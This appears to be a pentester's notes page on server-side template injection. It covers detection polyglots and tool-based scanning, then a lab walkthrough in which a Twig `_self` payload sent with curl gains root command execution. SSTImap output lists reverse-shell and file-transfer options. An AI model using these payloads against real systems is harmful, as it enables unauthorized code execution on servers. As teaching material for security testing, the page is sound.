


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SSTI

## Information

**Server-Side Template Injection (SSTI)** occurs when an attacker injects code native to the template engine into a web page, which the template engine then executes, granting the attacker code execution on the server.

> _**Template Engines** are used to display dynamically generated content on a web page. They replace the variables inside a template file with actual values and display these values to the client._&#x20;

## Identification

### Manual

Using polyglots to induce errors:

* The error polyglot produces an error message to 44 template engines. However, errors might be caught by the application.
* The non-error polyglots are constructed in such a way that at least one of them does not throw an error, but renders the polyglot modified for all template engines we examined.

```bash
# The error polyglot
<%'${{/#{@}}%>{{
# Non-error polyglots
">[[${{1}}]]
<%=1%>@*#{1}
{##}/*{{.}}*/
```

```
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

<figure><figcaption><p>Figure 1: Identifying template engines (<em>image taken from</em> <a href="https://portswigger.net/web-security/server-side-template-injection"><em>here</em></a>).</p></figcaption></figure>

### Automatic

Tools like [TInjA](https://github.com/Hackmanit/TInjA), [SSTImap](https://github.com/vladko312/sstimap), and [j2ee-scan](https://github.com/PortSwigger/j2ee-scan) (Burp Pro) can automatically test for SSTI flaws by injecting combinations of special characters in template expressions (`${{<%[%'"}}%\`). Vulnerability indicators include:

* Thrown errors, revealing the vulnerability and potentially the template engine.
* Absence of the payload in the reflection, or parts of it missing, implying the server processes it differently than regular data.
* **Plaintext Context**: Distinguish from XSS by checking if the server evaluates template expressions.
* **Code Context**: Confirm vulnerability by altering input parameters. For instance, changing `greeting` in `http://vulnerable-website.com/?greeting=data.username` to see if the server's output is dynamic or fixed, like in `greeting=data.username}}hello` returning the username.

## Example

<figure><figcaption><p>Figure 2: Trying different SSTI payloads.</p></figcaption></figure>

Based on Figure 1 & 2, we are dealing with either a Twig or Jinja2 template engine. Trying engine-specific payloads, reveals that the former is used (Figure 3).

<figure><figcaption><p>Figure 3: Trying a Twig-specific payload.</p></figcaption></figure>

The `_self` variable of Twig can be leveraged to execute a user-defined function and obtain RCE.


```bash
$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<SNIP>
<a>
    Who are you?
    <form method='post' action=''>
        <div class="form-group"> 
            <input placeholder="Name" name="name" size=70></input> <button class="btn btn-default" type="submit" name='submit'>Send</button>
       </div> 
    </form>
Hello uid=0(root) gid=0(root) groups=0(root)
Linux serversideattackssstitwig-60784-78bd58b5b-pmvvv 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
serversideattackssstitwig-60784-78bd58b5b-pmvvv
serversideattackssstitwig-60784-78bd58b5b-pmvvv!</a>
<SNIP>
```


The above process could be automated using `sstimap`.

```bash
$ ./sstimap.py -u "http://94.237.61.26:36373/" -d name=test

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4

[*] Scanning url: http://94.237.61.26:36373/
[*] Testing if Body parameter 'name' is injectable
<SNIP>
[*] Twig plugin is testing rendering with tag '*'
[*] Twig plugin is testing }}*{{1 code context escape with 6 variations
[*] Twig plugin is testing  %}* code context escape with 6 variations
[*] Twig plugin is testing blind injection
[*] Twig plugin is testing }}*{{1 code context escape with 6 variations
[*] Twig plugin is testing  %}* code context escape with 6 variations
[*] Twig_v1 plugin is testing rendering with tag '*'
[+] Twig_v1 plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: name
  Engine: Twig_v1
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --os-shell                   Prompt for an interactive operating system shell
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port
    --reverse-shell HOST PORT    Send a shell back to the attacker's port
    --upload LOCAL REMOTE        Upload files to the server
    --download REMOTE LOCAL      Download remote files
```

## Resources











{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}






